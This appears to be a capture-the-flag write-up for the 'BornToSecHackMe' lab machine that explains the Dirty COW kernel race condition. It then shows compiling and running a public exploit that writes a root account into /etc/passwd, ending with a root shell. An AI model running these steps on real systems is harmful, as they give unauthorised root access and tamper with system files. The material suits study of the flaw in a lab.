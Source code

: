 # Second Way : Dirty Cow Exploit

Starting on zaz :

````bash
uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
````

Looking on https://www.exploit-db.com/ and elsewhere, we find a famous vulnerability for this version of Linux : Dirty COW (Copy-On-Write)


### How Dirty COW Works

First, we create a private copy (mapping) of a read-only file. Second, we write to the private copy. Since it's our first time writing to the private copy, the COW feature takes place. The problem lies in the fact that this write consists of two non-atomic actions:

-locate physical address

-write to physical address

This means we can get right in the middle (via another thread) and tell the kernel to throw away our private copy — using madvise. This throwing away of the private copy results in the kernel accidentally writing to the original read-only file.

How ? Well there’s a lazy “trick” used by the kernel when it creates the copy. The way the kernel acts (when you attempt to write through out-of-band memory access such as proc/self/mem) is the following :
1. Try to access the address of the original file
2. Get denied because of the flags (indicating a non-authorized attempt to write)
3. Since the access originally happenned (on the virtual memory) on a mapping (thanks flags), request don’t get simply denied : the kernel creates a copy.
4. When copying, the kernel also copy the rights, meaning the user can’t write in it… And some lazy developer, instead of adding a flag, found it simpler to drop the flag indicating an attempt to write and repeat the code at 1., but with the address of the copy rather than the original file.
5. Since the flags don’t indicate anymore a request to WRITE but actually a request to READ, it gets authorized.

Now, what if between 4 and 5 we use madvise to purge the memory at the address of the copy ? Well the second attempt to access fails again, but this time, the error handler of the Kernel, seeing it’s just a READ attempts, defers to the a page linked to the original file. And launch the loop at 1 again. And bam, we write in the original file !

See
https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/index.html
And the pdf file


### Let’s get to work : 

We download dirty.c here :
https://www.exploit-db.com/exploits/40839

We connect to zaz

````bash
$>gcc -pthread dirty.c -o dirty -lcrypt
$> ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
````
We enter dirtywin

````
$> ./dirty
Please enter the new password:
Complete line:
firefart:fidh7GHB02eRM:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'dirtywin'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
````

````bash
zaz@BornToSecHackMe:~$ su
Password:
firefart@BornToSecHackMe:/home/zaz# id
uid=0(firefart) gid=0(root) groups=0(root)
````

Done
